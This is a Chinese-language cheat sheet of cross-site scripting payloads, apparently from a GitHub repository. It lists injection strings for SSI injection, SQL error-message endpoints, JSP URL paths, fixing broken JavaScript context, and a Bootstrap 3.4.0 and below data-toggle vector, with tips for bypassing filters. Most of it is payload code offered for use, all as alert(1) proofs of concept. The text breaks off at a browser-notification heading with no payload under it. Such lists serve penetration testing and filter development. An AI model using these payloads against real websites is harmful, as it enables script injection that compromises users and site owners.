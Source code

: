 

## Xss in SSI

**用于存在`Server-Side Include(SSI)`注入的场景**

```javascript
<<!--%23set var="x" value="svg onload=alert(1)"--><!--%23echo var="x"-->>
```



## SQLi Error-Based XSS

**用于可以触发SQL错误消息的端点（通过单引号或反斜杠）**

```javascript
'1<svg onload=alert(1)>
<svg onload=alert(1)>\
```



## JSP 路径注入

**在基于`JSP`的应用程序中，利用`URL`路径进行攻击**

```javascript
//DOMAIN/PATH/;<svg onload=alert(1)>
//DOMAIN/PATH/;"><svg onload=alert(1)>
```



## JS 注入 - ReferenceError Fix

**用于修复某些未完成的`JavaScript`代码的语法。在浏览器的开发者工具（按F12）中检查`Console`标签页，找到相对应的`ReferenceError`，并替换变量和函数名称以修复问题**

```javascript
';alert(1);var myObj='
';alert(1);function myFunc(){}'
```



## Bootstrap 攻击方法（适用V3.4.0 及以下版本）

**当页面存在Bootstrap库时使用。它还可以绕过`Webkit Auditor` ，只需点击网页任意位置即可触发。`herf`值的任何字符都可以进行`HTML`编码以绕过过滤器 **

```javascript
<html data-toggle=tab href="<img src=x onerror=alert(1)>">
```



## 浏览器通知

**作为`alert`、`prompt`和 `confirm`弹窗的替代方案。它需要用户授权（第一次请求），但如果用户之前已经为该网站授权过，则可以直接使用二次请求  **

